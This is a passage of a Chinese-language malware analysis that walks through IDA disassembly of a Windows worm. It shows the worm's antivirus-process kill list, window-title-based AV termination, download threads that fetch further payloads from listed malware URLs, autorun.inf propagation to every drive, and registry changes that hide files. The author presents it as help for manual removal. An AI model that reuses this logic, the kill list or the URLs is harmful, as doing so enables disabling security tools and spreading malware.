> .nsp0:00408FB1         call    Kill\_Process  
> .nsp0:00408FB6         mov     eax, offset aKvfw\_exe   ; "KVFW.exe"  
> .nsp0:00408FBB         call    Kill\_Process  
> .nsp0:00408FC0         mov     eax, offset aAdam\_exe   ; "adam.exe"  
> .nsp0:00408FC5         call    Kill\_Process  
> .nsp0:00408FCA         mov     eax, offset aTbmon\_exe  ; "TBMon.exe"  
> .nsp0:00408FCF         call    Kill\_Process  
> .nsp0:00408FD4         mov     eax, offset aKav32\_exe  ; "kav32.exe"  
> .nsp0:00408FD9         call    Kill\_Process  
> .nsp0:00408FDE         mov     eax, offset aKvwsc\_exe  ; "kvwsc.exe"  
> .nsp0:00408FE3         call    Kill\_Process  
> .nsp0:00408FE8         mov     eax, offset aCcapp\_exe  ; "CCAPP.exe"  
> .nsp0:00408FED         call    Kill\_Process  
> .nsp0:00408FF2         mov     eax, offset aConime\_exe ; "conime.exe"  
> .nsp0:00408FF7         call    Kill\_Process  
> .nsp0:00408FFC         mov     eax, offset aEghost\_exe ; "EGHOST.exe"  
> .nsp0:00409001         call    Kill\_Process  
> .nsp0:00409006         mov     eax, offset aKregex\_exe ; "KRegEx.exe"  
> .nsp0:0040900B         call    Kill\_Process  
> .nsp0:00409010         mov     eax, offset aKavsvc\_exe ; "kavsvc.exe"  
> .nsp0:00409015         call    Kill\_Process  
> .nsp0:0040901A         mov     eax, offset aVptray\_exe ; "VPTray.exe"  
> .nsp0:0040901F         call    Kill\_Process  
> .nsp0:00409024         mov     eax, offset aRavmon\_exe ; "RAVMON.exe"  
> .nsp0:00409029         call    Kill\_Process  
> .nsp0:0040902E         mov     eax, offset aEghost\_exe ; "EGHOST.exe"  
> .nsp0:00409033         call    Kill\_Process  
> .nsp0:00409038         mov     eax, offset aKavpfw\_exe ; "KavPFW.exe"  
> .nsp0:0040903D         call    Kill\_Process  
> .nsp0:00409042         mov     eax, offset aShstat\_exe ; "SHSTAT.exe"  
> .nsp0:00409047         call    Kill\_Process  
> .nsp0:0040904C         mov     eax, offset aRavtask\_exe ; "RavTask.exe"  
> .nsp0:00409051         call    Kill\_Process  
> .nsp0:00409056         mov     eax, offset aTrojdie\_kxp ; "TrojDie.kxp"  
> .nsp0:0040905B         call    Kill\_Process  
> .nsp0:00409060         mov     eax, offset aIparmor\_exe ; "Iparmor.exe"  
> .nsp0:00409065         call    Kill\_Process  
> .nsp0:0040906A         mov     eax, offset aMailmon\_exe ; "MAILMON.exe"  
> .nsp0:0040906F         call    Kill\_Process  
> .nsp0:00409074         mov     eax, offset aMcagent\_exe ; "MCAGENT.exe"  
> .nsp0:00409079         call    Kill\_Process  
> .nsp0:0040907E         mov     eax, offset aKavplus\_exe ; "KAVPLUS.exe"  
> .nsp0:00409083         call    Kill\_Process  
> .nsp0:00409088         mov     eax, offset aRavmond\_exe ; "RavMonD.exe"  
> .nsp0:0040908D         call    Kill\_Process  
> .nsp0:00409092         mov     eax, offset aRtvscan\_exe ; "Rtvscan.exe"  
> .nsp0:00409097         call    Kill\_Process  
> .nsp0:0040909C         mov     eax, offset aNvsvc32\_exe ; "Nvsvc32.exe"  
> .nsp0:004090A1         call    Kill\_Process  
> .nsp0:004090A6         mov     eax, offset aKvmonxp\_exe ; "KVMonXP.exe"  
> .nsp0:004090AB         call    Kill\_Process  
> .nsp0:004090B0         mov     eax, offset aKvsrvxp\_exe ; "Kvsrvxp.exe"  
> .nsp0:004090B5         call    Kill\_Process  
> .nsp0:004090BA         mov     eax, offset aCcenter\_exe ; "CCenter.exe"  
> .nsp0:004090BF         call    Kill\_Process  
> .nsp0:004090C4         mov     eax, offset aKpopmon\_exe ; "KpopMon.exe"  
> .nsp0:004090C9         call    Kill\_Process  
> .nsp0:004090CE         mov     eax, offset aRfwmain\_exe ; "RfwMain.exe"  
> .nsp0:004090D3         call    Kill\_Process  
> .nsp0:004090D8         mov     eax, offset aKwatchui\_exe ; "KWATCHUI.exe"  
> .nsp0:004090DD         call    Kill\_Process  
> .nsp0:004090E2         mov     eax, offset aMcvsescn\_exe ; "MCVSESCN.exe"  
> .nsp0:004090E7         call    Kill\_Process  
> .nsp0:004090EC         mov     eax, offset aMskagent\_exe ; "MSKAGENT.exe"  
> .nsp0:004090F1         call    Kill\_Process  
> .nsp0:004090F6         mov     eax, offset aKvolself\_exe ; "kvolself.exe"  
> .nsp0:004090FB         call    Kill\_Process  
> .nsp0:00409100         mov     eax, offset aKvcenter\_kxp ; "KVCenter.kxp"  
> .nsp0:00409105         call    Kill\_Process  
> .nsp0:0040910A         mov     eax, offset aKavstart\_exe ; "kavstart.exe"  
> .nsp0:0040910F         call    Kill\_Process  
> .nsp0:00409114         mov     eax, offset aRavtimer\_exe ; "RAVTIMER.exe"  
> .nsp0:00409119         call    Kill\_Process  
> .nsp0:0040911E         mov     eax, offset aRrfwmain\_exe ; "RRfwMain.exe"  
> .nsp0:00409123         call    Kill\_Process  
> .nsp0:00409128         mov     eax, offset aFiretray\_exe ; "FireTray.exe"  
> .nsp0:0040912D         call    Kill\_Process  
> .nsp0:00409132         mov     eax, offset aUpdaterui\_exe ; "UpdaterUI.exe"  
> .nsp0:00409137         call    Kill\_Process  
> .nsp0:0040913C         mov     eax, offset aKvsrvxp\_1\_exe ; "KVSrvXp\_1.exe"  
> .nsp0:00409141         call    Kill\_Process  
> .nsp0:00409146         mov     eax, offset aRavservice\_exe ; "RavService.exe"  
> .nsp0:0040914B         call    Kill\_Process  
> .nsp0:00409150  
> .nsp0:00409150 Win9x\_Way:                              ; CODE XREF: Thread\_Kill\_AV+214 j  
> .nsp0:00409150         xor     eax, eax  
> .nsp0:00409152         pop     edx  
> .nsp0:00409153         pop     ecx  
> .nsp0:00409154         pop     ecx  
> .nsp0:00409155         mov     fs:\[eax\], edx  
> .nsp0:00409158         push    offset loc\_409172  
> .nsp0:0040915D  
> .nsp0:0040915D loc\_40915D:                             ; CODE XREF: .nsp0:00409170 j  
> .nsp0:0040915D         lea     eax, \[ebp+var\_2C\]  
> .nsp0:00409160         mov     edx, 0Bh  
> .nsp0:00409165         call    @System@@LStrArrayClr$qqrpvi  
> .nsp0:0040916A         retn  
> .nsp0:0040916A Thread\_Kill\_AV endp ; sp = -48h  
> 细心你的应该会发现关于清除反病毒软件部分我并没有写多少注释，其实这部分已经是非常陈旧的技术，这类反病毒字典在 google 上搜一下，也许比这里还多还全，同时写这篇文章的原因是希望大家学会手工清除病毒而不是如何清除反病毒软件，综上情况就是我为什么没写什么注释或说明的原因。  
> 接下来就是两个下载其它病毒线程了，我们根据从先到后的顺序简单的写写病毒连接哪个网站?又下载了些什么。  
> 下载线程 1:  
>   
> .nsp0:0040984C ; DWORD \_\_stdcall ThreadDownload\_01(LPVOID)  
> .nsp0:0040984C ThreadDownload\_01 proc near             ; DATA XREF: start+5E0 o  
>      mov     fs:\[eax\], esp  
> .nsp0:00409864         push    900000                  ; dwMilliseconds  
> .nsp0:00409869         call    Sleep                   ; 暂停 9 秒钟后下载其它病毒  
> .nsp0:0040986E         push    offset aNo\_0            ; "no"  
> .nsp0:00409873         push    1  
> .nsp0:00409875         mov     ecx, offset aPopupmgr   ; "PopupMgr"  
> .nsp0:0040987A         mov     edx, offset aSoftwareMicr\_4 ; "Software\\\\Microsoft\\\\Internet Explorer\\\\Ne"...  
> .nsp0:0040987F         mov     eax, HKEY\_CURRENT\_USER  
> .nsp0:00409884         call    Write\_Reg               ; 写入下载标记  
> .nsp0:00409889         push    offset a0\_0             ; "0"  
> .nsp0:0040988E         push    1  
> .nsp0:00409890         mov     ecx, offset aCheckedvalue\_0 ; "CheckedValue"  
> .nsp0:00409895         mov     edx, offset aSoftwareMicr\_0 ; "software\\\\microsoft\\\\windows\\\\currentversi"...  
> .nsp0:0040989A         mov     eax, HKEY\_LOCAL\_MACHINE  
> .nsp0:0040989F         call    Write\_Reg               ; 修改注册表项使我们显示系统隐藏文件  
> .nsp0:004098A4         mov     eax, off\_40B0E4  
> .nsp0:004098A9         call    @System@@LStrClr$qqrpv  
> .nsp0:004098AE         lea     eax, \[ebp+var\_4\]  
> ......  
>  push    offset a2               ; "2"  
> .nsp0:0040990B         push    1  
> .nsp0:0040990D         lea     edx, \[ebp+var\_10\]  
> .nsp0:00409910         mov     eax, offset aHx2        ; "hx-2"  
> .nsp0:00409915         call    Decrypt\_Function  
> .nsp0:0040991A         mov     eax, \[ebp+var\_10\]  
> .nsp0:0040991D         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00409922         push    eax  
> .nsp0:00409923         lea     edx, \[ebp+var\_14\]  
> .nsp0:00409926         mov     eax, offset aWjWsdtfxhoVjul ; "Software\\\\Microsoft\\\\Windows\\\\CurrentVersi"...  
> .nsp0:0040992B         call    Decrypt\_Function  
> .nsp0:00409930         mov     eax, \[ebp+var\_14\]  
> .nsp0:00409933         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00409938         mov     edx, eax  
> .nsp0:0040993A         mov     eax, HKEY\_LOCAL\_MACHINE  
> .nsp0:0040993F         pop     ecx  
> .nsp0:00409940         call    Write\_Reg  
> .nsp0:00409945         call    AdClick\_And\_DownLoad    ; 这个函数用于下载病毒和增加网站流量  
> .nsp0:0040994A         call    Download                ; 通过网络下载以下文件，然后解析出文件中要下载的其它  
> .nsp0:0040994A                                         ; 病毒程序的地址，解析完毕后下载并运行相应的病毒程序。  
> .nsp0:0040994A                                         ; http://www.ctv163.com/admin/down.txt  
> .nsp0:0040994F  
> .nsp0:0040994F loc\_40994F:                             ; CODE XREF: ThreadDownload\_01+B8 j  
> .nsp0:0040994F         xor     eax, eax  
> .nsp0:00409951         pop     edx  
> ......  
> .nsp0:00409964         call    @System@@LStrArrayClr$qqrpvi  
> .nsp0:00409969         retn  
> .nsp0:00409969 ThreadDownload\_01 endp ; sp = -34h  
> .nsp0:00409969  
> 上面的下载代码中有一个增加网站流量的细节 AdClick\_And\_DownLoad,下面看看具体里面做了些什么:  
> .nsp0:004078A0 ; =============== S U B R O U T I N E =======================================  
> .nsp0:004078A0  
> .nsp0:004078A0 ; 这个函数用于下载病毒和增加网站流量  
> .nsp0:004078A0 ; Attributes: bp-based frame  
> .nsp0:004078A0  
> .nsp0:004078A0 AdClick\_And\_DownLoad proc near          ; CODE XREF: ThreadDownload\_01+F9 p  
> .nsp0:004078A0  
> .nsp0:004078A0 var\_10  = dword ptr -10h  
> .nsp0:004078A0 var\_C   = dword ptr -0Ch  
> .nsp0:004078A0 var\_8   = dword ptr -8  
> .nsp0:004078A0 dwFlags = dword ptr -4  
> .nsp0:004078A0  
> .nsp0:004078A0         push    ebp  
> .nsp0:004078A1         mov     ebp, esp  
> .nsp0:004078A3         xor     ecx, ecx  
> .nsp0:004078A5         push    ecx  
> .nsp0:004078A6         push    ecx  
> .nsp0:004078A7         push    ecx  
> .nsp0:004078A8         push    ecx  
> .nsp0:004078A9         xor     eax, eax  
> .nsp0:004078AB         push    ebp  
> .nsp0:004078AC         push    offset j\_@System@@HandleFinally$qqrv\_18  
> .nsp0:004078B1         push    dword ptr fs:\[eax\]  
> .nsp0:004078B4         mov     fs:\[eax\], esp  
> .nsp0:004078B7         mov     \[ebp+dwFlags\], 7  
> .nsp0:004078BE         push    0                       ; dwReserved  
> .nsp0:004078C0         lea     eax, \[ebp+dwFlags\]  
> .nsp0:004078C3         push    eax                     ; lpdwFlags  
> .nsp0:004078C4         call    InternetGetConnectedState  
> .nsp0:004078C9         test    eax, eax  
> .nsp0:004078CB         jz      short loc\_407947  
> .nsp0:004078CD         call    sub\_4025D4  
> .nsp0:004078D2         mov     eax, 2  
> .nsp0:004078D7         call    @System@@RandInt$qqrv  
> .nsp0:004078DC         mov     edx, off\_40B124  
> .nsp0:004078E2         mov     \[edx\], eax  
> .nsp0:004078E4         mov     eax, off\_40B124  
> .nsp0:004078E9         cmp     dword ptr \[eax\], 1  
> .nsp0:004078EC         jnz     short loc\_4078FA  
> .nsp0:004078EE         call    popAd                   ; 弹出如下网页:http://www.cd321.net/ad.htm  
> .nsp0:004078F3         call    Down\_File               ; 下载以下文件:  
> .nsp0:004078F3                                         ; http://update1.cd321.net/15tie.rar  
> .nsp0:004078F8         jmp     short loc\_407947  
> .nsp0:004078FA ; ---------------------------------------------------------------------------  
> .nsp0:004078FA  
> .nsp0:004078FA loc\_4078FA:                             ; CODE XREF: AdClick\_And\_DownLoad+4C j  
> .nsp0:004078FA         push    3                       ; nShowCmd  
> .nsp0:004078FC         push    0                       ; lpDirectory  
> .nsp0:004078FE         lea     edx, \[ebp+var\_8\]  
> .nsp0:00407901         mov     eax, offset aLqrsTsrPs757\_0 ; "http://www.ctv163.com"  
> .nsp0:00407906         call    Decrypt\_Function        ; 为以下网站添加流量:  
> .nsp0:00407906                                         ; http://www.ctv163.com  
> .nsp0:0040790B         mov     eax, \[ebp+var\_8\]  
> .nsp0:0040790E         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00407913         push    eax                     ; lpParameters  
> .nsp0:00407914         lea     edx, \[ebp+var\_C\]  
> .nsp0:00407917         mov     eax, offset aExplorer\_exe ; "Explorer.exe"  
> .nsp0:0040791C         call    Decrypt\_Function        ; 其中的 Explorer.exe 都是加密后存放的，  
> .nsp0:0040791C                                         ; 为了方便大家看，我先将其进行了解密操作。  
> .nsp0:00407921         mov     eax, \[ebp+var\_C\]  
> .nsp0:00407924         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00407929         push    eax                     ; lpFile  
> .nsp0:0040792A         lea     edx, \[ebp+var\_10\]  
> .nsp0:0040792D         mov     eax, offset aKucm\_4     ; "open"  
> .nsp0:00407932         call    Decrypt\_Function  
> .nsp0:00407937         mov     eax, \[ebp+var\_10\]  
> .nsp0:0040793A         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040793F         push    eax                     ; lpOperation  
> .nsp0:00407940         push    0                       ; hwnd  
> .nsp0:00407942         call    ShellExecuteA           ; 通过 Explorer 打开浏览来增加网站流量，好阴险:-(。  
> .nsp0:00407947  
> .nsp0:00407947 loc\_407947:                             ; CODE XREF: AdClick\_And\_DownLoad+2B j  
> .nsp0:00407947                                         ; AdClick\_And\_DownLoad+58 j  
> .nsp0:00407947         xor     eax, eax  
> .nsp0:00407949         pop     edx  
> .nsp0:0040794A         pop     ecx  
> .nsp0:0040794B         pop     ecx  
> .nsp0:0040794C         mov     fs:\[eax\], edx  
> .nsp0:0040794F         push    offset loc\_407969  
> .nsp0:00407954  
> .nsp0:00407954 loc\_407954:                             ; CODE XREF: .nsp0:00407967 j  
> .nsp0:00407954         lea     eax, \[ebp+var\_10\]  
> .nsp0:00407957         mov     edx, 3  
> .nsp0:0040795C         call    @System@@LStrArrayClr$qqrpvi  
> .nsp0:00407961         retn  
> .nsp0:00407961 AdClick\_And\_DownLoad endp ; sp = -18h  
> .nsp0:00407961  
>   
> 接下来看看下载线程二做了些什么:  
> .nsp0:00409A8C ; DWORD \_\_stdcall ThreadDownload\_02(LPVOID)  
> .nsp0:00409A8C ThreadDownload\_02 proc near             ; DATA XREF: start+5F8 o  
> .nsp0:00409A8C  
> .nsp0:00409A8C var\_8   = dword ptr -8  
> .nsp0:00409AF1         mov     ecx, offset aPopupmgr\_0 ; "PopupMgr"  
> .nsp0:00409AF6         mov     edx, offset aSoftwareMicr\_5 ; "Software\\\\Microsoft\\\\Internet Explorer\\\\Ne"...  
> .nsp0:00409AFB         mov     eax, HKEY\_CURRENT\_USER  
> .nsp0:00409B00         call    Write\_Reg               ; 这里和上一线程一样，设置下载标记  
> .nsp0:00409B05         push    offset a0\_1             ; "0"  
> .nsp0:00409B0A         push    1  
> .nsp0:00409B0C         mov     ecx, offset aCheckedvalue\_1 ; "CheckedValue"  
> .nsp0:00409B11         mov     edx, offset aSoftwareMicr\_1 ; "software\\\\microsoft\\\\windows\\\\currentversi"...  
> .nsp0:00409B16         mov     eax, HKEY\_LOCAL\_MACHINE  
> .nsp0:00409B1B         call    Write\_Reg               ; 隐藏系统文件  
> .nsp0:00409B20         call    Enable\_AutoRun\_Inf      ; 通过写 reg 文件方式修改注册表项，使系统开启 autorun 功能.  
> .nsp0:00409B20                                         ; 用于打开各分区时自动运行病毒  
> .nsp0:00409B25         mov     eax, off\_40B0F8  
> .nsp0:00409B2A         cmp     dword ptr \[eax\], 0  
> .nsp0:00409B2D         jz      short loc\_409B34  
> .nsp0:00409B2F         call    Download\_409b2f         ; 下载以下文件:  
> .nsp0:00409B2F                                         ; http://update1.cd321.net/30sie.rar  
> .nsp0:00409B2F                                         ; http://update1.cd321.net/30hie.rar  
> .nsp0:00409B34  
> ......  
> .nsp0:00409B4E         retn  
> .nsp0:00409B4E ThreadDownload\_02 endp ; sp = -28h  
> 看完以上两个下载其它病毒线程，这回来总结这两线程做了些什么:  
> 1、下载病毒文件:  
> http://update1.cd321.net/30hie.rar  
> http://update1.cd321.net/30sie.rar  
> http://update1.cd321.net/15tie.rar  
> 2、弹出网页:  
> http://www.cd321.net/ad.htm  
> 3、获取下载病毒列表文件，然后下载相应的病毒:  
> http://www.ctv163.com/admin/down.txt  
> 4、增加网站流量:  
> http://www.ctv163.com  
> 5、修改注册表项使得中毒后无法显示系统隐藏文件；  
> 6、开启自动运行功能，以增加病毒运行机率。  
>   
> 讲完下载线程后自己大概看了下释放/盗取 QQ 部分，感觉很传统，也就没去分析，如果你有兴趣，可以去细分析下。我这里考虑到篇副的问题我就不写了。  
> 第一次我分析时以为到这里也就结束了，当时直接在本机试也下，发现不对呀，病毒还是在不停的释放自身。  
> 后来的仔细的再对了次代码发现原来病毒在 Reg\_Window 的下面还放了一个 timer，跟进去看了下原来这才是我们最后的一个重点:病毒不停的释放病毒本身至各驱动器的根目录下。  
> 详细代码如下:  
> .nsp0:00409C60 ; =============== S U B R O U T I N E =======================================  
> .nsp0:00409C60  
> .nsp0:00409C60 ; Attributes: bp-based frame  
> .nsp0:00409C60  
> .nsp0:00409C60 ; void \_\_stdcall TimerFunc(HWND,UINT,UINT,DWORD)  
> .nsp0:00409C60 TimerFunc proc near                     ; DATA XREF: Reg\_Window+AC o  
> .nsp0:00409C60  
> .nsp0:00409C60 var\_C   = dword ptr -0Ch  
> .nsp0:00409C60 var\_8   = dword ptr -8  
> .nsp0:00409C60 var\_4   = dword ptr -4  
> .nsp0:00409C60  
> .nsp0:00409C60         push    ebp  
> .nsp0:00409C61         mov     ebp, esp  
> .nsp0:00409C63         push    0  
> .nsp0:00409C65         push    0  
> .nsp0:00409C67         push    0  
> .nsp0:00409C69         xor     eax, eax  
> .nsp0:00409C6B         push    ebp  
> .nsp0:00409C6C         push    offset j\_@System@@HandleFinally$qqrv\_25  
> .nsp0:00409C71         push    dword ptr fs:\[eax\]  
> .nsp0:00409C74         mov     fs:\[eax\], esp  
> .nsp0:00409C77         call    Kill\_AV\_                ; 关闭包含反病毒相关字样的程序  
> .nsp0:00409C7C         mov     eax, off\_40B10C  
> .nsp0:00409C81         cmp     byte ptr \[eax\], 1  
> .nsp0:00409C84         jnz     end\_409D8C  
> .nsp0:00409C8A         lea     eax, \[ebp+var\_4\]  
> .nsp0:00409C8D         call    GetSysDir  
> .nsp0:00409C92         lea     eax, \[ebp+var\_4\]  
> .nsp0:00409C95         mov     edx, offset aQqhx\_dat\_2 ; "QQhx.dat"  
> .nsp0:00409C9A         call    @System@@LStrCat$qqrv  
> .nsp0:00409C9F         mov     eax, \[ebp+var\_4\]  
> .nsp0:00409CA2         call    @Sysutils@FileExists$qqrx17System@AnsiString  
> .nsp0:00409CA7         test    al, al  
> .nsp0:00409CA9         jnz     File\_isExist            ; 判断%sysdir%\\qqhx.dat 文件是否存在  
> .nsp0:00409CAF         mov     eax, off\_40B13C         ; 如果不存在则复制病毒体为该文件  
> .nsp0:00409CB4         mov     edx, 104h  
> .nsp0:00409CB9         call    @System@@LStrSetLength$qqrv  
> .nsp0:00409CBE         push    104h                    ; nSize  
> .nsp0:00409CC3         mov     eax, off\_40B13C  
> .nsp0:00409CC8         mov     eax, \[eax\]  
> .nsp0:00409CCA         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00409CCF         push    eax                     ; lpFilename  
> .nsp0:00409CD0         mov     eax, hBase  
> .nsp0:00409CD5         push    eax                     ; hModule  
> .nsp0:00409CD6         call    GetModuleFileNameA  
> .nsp0:00409CDB         mov     edx, eax  
> .nsp0:00409CDD         mov     eax, off\_40B13C  
> .nsp0:00409CE2         call    @System@@LStrSetLength$qqrv  
> .nsp0:00409CE7         push    0                       ; bFailIfExists  
> .nsp0:00409CE9         lea     eax, \[ebp+var\_8\]  
> .nsp0:00409CEC         call    GetSysDir  
> .nsp0:00409CF1         lea     eax, \[ebp+var\_8\]  
> .nsp0:00409CF4         mov     edx, offset aQqhx\_dat\_2 ; "QQhx.dat"  
> .nsp0:00409CF9         call    @System@@LStrCat$qqrv  
> .nsp0:00409CFE         mov     eax, \[ebp+var\_8\]  
> .nsp0:00409D01         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00409D06         push    eax                     ; lpNewFileName  
> .nsp0:00409D07         mov     eax, off\_40B13C  
> .nsp0:00409D0C         mov     eax, \[eax\]  
> .nsp0:00409D0E         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00409D13         push    eax                     ; lpExistingFileName  
> .nsp0:00409D14         call    CopyFileA  
> .nsp0:00409D19         push    6                       ; dwFileAttributes  
> .nsp0:00409D1B         lea     eax, \[ebp+var\_C\]  
> .nsp0:00409D1E         call    GetSysDir  
> .nsp0:00409D23         lea     eax, \[ebp+var\_C\]  
> .nsp0:00409D26         mov     edx, offset aQqhx\_dat\_2 ; "QQhx.dat"  
> .nsp0:00409D2B         call    @System@@LStrCat$qqrv  
> .nsp0:00409D30         mov     eax, \[ebp+var\_C\]  
> .nsp0:00409D33         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00409D38         push    eax                     ; lpFileName  
> .nsp0:00409D39         call    SetFileAttributesA  
> .nsp0:00409D3E  
> .nsp0:00409D3E File\_isExist:                           ; CODE XREF: TimerFunc+49 j  
> .nsp0:00409D3E         mov     eax, pOption\_Infect\_Driver  
> .nsp0:00409D43         mov     eax, \[eax\]  
> .nsp0:00409D45         mov     edx, offset aYes\_1      ; "yes"  
> .nsp0:00409D4A         call    @System@@LStrCmp$qqrv  
> .nsp0:00409D4F         jnz     short loc\_409D56  
> .nsp0:00409D51         call    CopyAutoRun\_Inf\_REMOVABLE ; 在中毒机器上的每个移动盘根目录下生成  
> .nsp0:00409D51                                         ; sxs.exe 和 autorun.inf 文件.  
> .nsp0:00409D56  
> .nsp0:00409D56 loc\_409D56:                             ; CODE XREF: TimerFunc+EF j  
> .nsp0:00409D56         mov     eax, pOption\_03  
> .nsp0:00409D5B         mov     eax, \[eax\]  
> .nsp0:00409D5D         mov     edx, offset aYes\_1      ; "yes"  
> .nsp0:00409D62         call    @System@@LStrCmp$qqrv  
> .nsp0:00409D67         jnz     short end\_409D8C  
> .nsp0:00409D69         call    GetOs  
> .nsp0:00409D6E         cmp     eax, 3  
> .nsp0:00409D71         jnz     short end\_409D8C  
> .nsp0:00409D73         call    CopyAutoRun\_Inf\_Local   ; 在硬盘的各分区下生成 sxs.exe 和 autorun.inf 文件  
> .nsp0:00409D78         call    sub\_406494              ; 这里也是复制病毒自身。  
> .nsp0:00409D78                                         ; 在每个分区下生成病毒文件  
> .nsp0:00409D7D         call    sub\_40684C              ; 这里几个函数功能基本一样，因此不再重命名函数  
> .nsp0:00409D82         call    sub\_406C04  
> .nsp0:00409D87         call    sub\_406FBC  
> .nsp0:00409D8C  
> .nsp0:00409D8C end\_409D8C:                             ; CODE XREF: TimerFunc+24 j  
> .nsp0:00409D8C                                         ; TimerFunc+107 j ...  
> .nsp0:00409D8C         xor     eax, eax  
> .nsp0:00409D8E         pop     edx  
> .nsp0:00409D8F         pop     ecx  
> .nsp0:00409D90         pop     ecx  
> .nsp0:00409D91         mov     fs:\[eax\], edx  
> .nsp0:00409D94         push    offset loc\_409DAE  
> .nsp0:00409D99  
> .nsp0:00409D99 loc\_409D99:                             ; CODE XREF: .nsp0:00409DAC j  
> .nsp0:00409D99         lea     eax, \[ebp+var\_C\]  
> .nsp0:00409D9C         mov     edx, 3  
> .nsp0:00409DA1         call    @System@@LStrArrayClr$qqrpvi  
> .nsp0:00409DA6         retn  
> .nsp0:00409DA6 TimerFunc endp ; sp = -14h  
> .nsp0:00409DA6  
> 上面的代码中有一个 kill\_av(Kill anti virus)，再进去看看:  
> .nsp0:004084CC ; =============== S U B R O U T I N E =======================================  
> .nsp0:004084CC  
> .nsp0:004084CC ; Attributes: bp-based frame  
> .nsp0:004084CC  
> .nsp0:004084CC Kill\_AV\_ proc near                      ; CODE XREF: TimerFunc+17 p  
> .nsp0:004084CC                                         ; .nsp0:00409E2E p  
> ......  
> .nsp0:00408519         lea     eax, \[ebp+var\_6C\]  
> .nsp0:0040851C         mov     edx, edi  
> .nsp0:0040851E         mov     ecx, 65h  
> .nsp0:00408523         call    @System@@LStrFromArray$qqrr17System@AnsiStringpci  
> .nsp0:00408528         mov     edx, \[ebp+var\_6C\]  
> .nsp0:0040852B         mov     eax, offset asc\_4086FC  ; "防火墙"  
> .nsp0:00408530         call    @System@@LStrPos$qqrv  
> .nsp0:00408535         test    eax, eax  
> .nsp0:00408537         jz      short loc\_408545  
> .nsp0:00408539         push    0                       ; lParam  
> .nsp0:0040853B         push    0                       ; wParam  
> .nsp0:0040853D         push    WM\_QUIT                 ; Msg  
> .nsp0:0040853F         push    ebx                     ; hWnd  
> .nsp0:00408540         call    PostMessageA  
> .nsp0:00408545  
> .nsp0:00408545 loc\_408545:                             ; CODE XREF: Kill\_AV\_+6B j  
> .nsp0:00408545         test    ebx, ebx  
> .nsp0:00408547         jnz     short loc\_408503  
> .nsp0:00408549         call    GetDesktopWindow  
> .nsp0:0040854E         mov     esi, eax  
> .nsp0:00408550  
> .nsp0:00408550 loc\_408550:                             ; CODE XREF: Kill\_AV\_+C8 j  
> .nsp0:00408550         push    0                       ; LPCSTR  
> .nsp0:00408552         push    0                       ; LPCSTR  
> .nsp0:00408554         push    ebx                     ; HWND  
> .nsp0:00408555         push    esi                     ; HWND  
> .nsp0:00408556         call    FindWindowExA  
> .nsp0:0040855B         mov     ebx, eax  
> .nsp0:0040855D         push    65h                     ; nMaxCount  
> .nsp0:0040855F         push    edi                     ; lpString  
> .nsp0:00408560         push    ebx                     ; hWnd  
> .nsp0:00408561         call    GetWindowTextA  
> .nsp0:00408566         lea     eax, \[ebp+var\_70\]  
> .nsp0:00408569         mov     edx, edi  
> .nsp0:0040856B         mov     ecx, 65h  
> .nsp0:00408570         call    @System@@LStrFromArray$qqrr17System@AnsiStringpci  
> .nsp0:00408575         mov     edx, \[ebp+var\_70\]  
> .nsp0:00408578         mov     eax, offset aQ          ; "网镖"  
> .nsp0:0040857D         call    @System@@LStrPos$qqrv  
> .nsp0:00408582         test    eax, eax  
> .nsp0:00408584         jz      short loc\_408592  
> .nsp0:00408586         push    0                       ; lParam  
> .nsp0:00408588         push    0                       ; wParam  
> .nsp0:0040858A         push    12h                     ; Msg  
> .nsp0:0040858C         push    ebx                     ; hWnd  
> .nsp0:0040858D         call    PostMessageA  
> .nsp0:00408592  
> .nsp0:00408592 loc\_408592:                             ; CODE XREF: Kill\_AV\_+B8 j  
> .nsp0:00408592         test    ebx, ebx  
> .nsp0:00408594         jnz     short loc\_408550  
> .nsp0:00408596         call    GetDesktopWindow  
> .nsp0:0040859B         mov     esi, eax  
> .nsp0:0040859D  
> .nsp0:0040859D loc\_40859D:                             ; CODE XREF: Kill\_AV\_+115 j  
> .nsp0:0040859D         push    0                       ; LPCSTR  
> .nsp0:0040859F         push    0                       ; LPCSTR  
> .nsp0:004085A1         push    ebx                     ; HWND  
> .nsp0:004085A2         push    esi                     ; HWND  
> .nsp0:004085A3         call    FindWindowExA  
> .nsp0:004085A8         mov     ebx, eax  
> .nsp0:004085AA         push    65h                     ; nMaxCount  
> .nsp0:004085AC         push    edi                     ; lpString  
> .nsp0:004085AD         push    ebx                     ; hWnd  
> .nsp0:004085AE         call    GetWindowTextA  
> .nsp0:004085B3         lea     eax, \[ebp+var\_74\]  
> .nsp0:004085B6         mov     edx, edi  
> .nsp0:004085B8         mov     ecx, 65h  
> .nsp0:004085BD         call    @System@@LStrFromArray$qqrr17System@AnsiStringpci  
> .nsp0:004085C2         mov     edx, \[ebp+var\_74\]  
> .nsp0:004085C5         mov     eax, offset asc\_40871C  ; "杀毒"  
> .nsp0:004085CA         call    @System@@LStrPos$qqrv  
> .nsp0:004085CF         test    eax, eax  
> .nsp0:004085D1         jz      short loc\_4085DF  
> .nsp0:004085D3         push    0                       ; lParam  
> .nsp0:004085D5         push    0                       ; wParam  
> .nsp0:004085D7         push    12h                     ; Msg  
> .nsp0:004085D9         push    ebx                     ; hWnd  
> .nsp0:004085DA         call    PostMessageA  
> .nsp0:004085DF  
> .nsp0:004085DF loc\_4085DF:                             ; CODE XREF: Kill\_AV\_+105 j  
> .nsp0:004085DF         test    ebx, ebx  
> .nsp0:004085E1         jnz     short loc\_40859D  
> .nsp0:004085E3         call    GetDesktopWindow  
> .nsp0:004085E8         mov     esi, eax  
> .nsp0:004085EA  
> .nsp0:004085EA loc\_4085EA:                             ; CODE XREF: Kill\_AV\_+162 j  
> .nsp0:004085EA         push    0                       ; LPCSTR  
> .nsp0:004085EC         push    0                       ; LPCSTR  
> .nsp0:004085EE         push    ebx                     ; HWND  
> .nsp0:004085EF         push    esi                     ; HWND  
> .nsp0:004085F0         call    FindWindowExA  
> .nsp0:004085F5         mov     ebx, eax  
